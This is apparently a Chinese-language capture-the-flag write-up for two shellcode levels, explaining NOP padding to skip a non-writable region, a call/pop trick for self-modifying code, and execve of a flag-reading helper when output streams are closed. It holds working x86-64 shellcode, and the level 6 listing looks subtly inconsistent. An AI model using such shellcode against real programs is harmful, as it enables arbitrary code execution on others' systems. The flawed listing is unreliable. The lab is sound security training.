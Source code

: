 
## level6
跟第五关一样，不同的是，程序会收回输入的前0x1000个字节的写权限，那么我们可以在第五关的基础上，对前0x1000个字节使用nop指令进行填充。

```asm
BITS 64

section .data
    filename db '/home/hacker/Shellcode/level3/openflag',0

section .text
    global _start

_start:
    times 0x1000 nop
    jmp short call_code

code:
    pop rsi
    push rsi
    mov byte [rsi-8], 0x0f
    mov byte [rsi-7], 0x05
    xor rax, rax
    mov al, 0x3b
    lea rdi, [rel filename]
    xor rsi, rsi
    xor rdx, rdx
    call rax
    ret

call_code:
    call code # 之所以用call指令，是因为我们要获取指令的地址。而这一步会让rip入栈，我们可以根据rip修改指令地址处的指令。达到动态修改运行指令的效果。
    times 0x10 nop
```


## level7

在执行 `shellcode_mem` 前，程序关闭了标准输入`（stdin）`，标准输出`（stdout）`和标准错误输出`（stderr）`，因此在当前进程中，标准输出文件描述符 1 和标准错误输出文件描述符 2 已经被关闭。由于 execve 继承了调用它的进程的文件描述符状态，新的进程也将没有有效的标准输出和标准错误输出。

这个跟之前的区别是，取消了回显，也就是说，你无法通过标准输入，看到回显。那么我们就换个思路，将读取到的flag内容写入到一个文件中，然后再点击这个文件查看内容就行了。当然，你也可以将标准输出重定向到某个文件查看内容。

```asm
BITS 64

section .text
global _start

_start:
    jmp short call_shellcode

get_address:
    pop rdi
    mov rsi, 0
    mov rdx, 0
    mov al, 0x3b
    syscall

call_shellcode:
    call get_address
    db "/home/hacker/Shellcode/level7/openflag",0
```
